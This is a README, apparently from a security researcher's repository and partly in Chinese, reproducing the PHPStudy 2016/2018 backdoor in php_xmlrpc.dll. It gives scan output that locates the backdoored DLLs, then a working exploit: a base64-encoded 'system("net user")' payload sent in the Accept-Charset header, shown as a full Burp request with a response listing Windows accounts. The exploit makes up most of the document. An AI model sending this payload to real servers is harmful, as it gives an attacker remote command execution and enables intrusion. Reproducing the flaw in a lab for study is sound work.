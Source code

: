 # PHPStudy-Backdoor 后门漏洞复现
phpstudy dll backdoor for v2016 and v2018

![](./PHP-5.2.17-nginx.jpg)

## 0x01 scan search for backdoor dll

```
D:\Pentester\phpStudy>python check.py
=== .\php\php-5.2.17\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));
=== .\php\php-5.4.45\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));

D:\Pentester\phpStudy>

>>>D:\Pentester\phpStudy\php\php-5.2.17\ext\php_xmlrpc.dll
>>>D:\Pentester\phpStudy\php\php-5.4.45\ext\php_xmlrpc.dll


D:\Pentester\phpStudy>md5sum .\php\php-5.2.17\ext\php_xmlrpc.dll
\0f7ad38e7a9857523dfbce4bce43a9e9 *.\\php\\php-5.2.17\\ext\\php_xmlrpc.dll

D:\Pentester\phpStudy>md5sum  .\php\php-5.4.45\ext\php_xmlrpc.dll
\c339482fd2b233fb0a555b629c0ea5d5 *.\\php\\php-5.4.45\\ext\\php_xmlrpc.dll
```

## 0x02 exp

```Ps： 脚本编写思路:
1.先检测目标网站php版本，再执行命令，以及输出目标网站的server信息
2. 生成固定字符串md5,验证是否成功执行
```

![](./PHP-5.2.17.jpg)



![](./PHP-5.4.45.jpg)

![](./payload.jpg)

`accept-charset: echo system("net user");echo PHP_VERSION;`

`Base64 encode`

`accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=`

## BurpSuite Request

```
GET / HTTP/1.1
Host: 172.16.9.174
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=
Accept-Encoding: gzip,deflate
Upgrade-Insecure-Requests: 1


```
## BurpSuite Response

```
HTTP/1.1 200 OK
Date: Tue, 24 Sep 2019 15:06:18 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 17223


\\JAS502N µÄÓÃ»§ÕÊ»§

-------------------------------------------------------------------------------
Administrator            CTF                      DefaultAccount           
defaultuser0             Guest                    
ÃüÁî³É¹¦Íê³É¡£

5.4.45
```


## 参考链接

https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
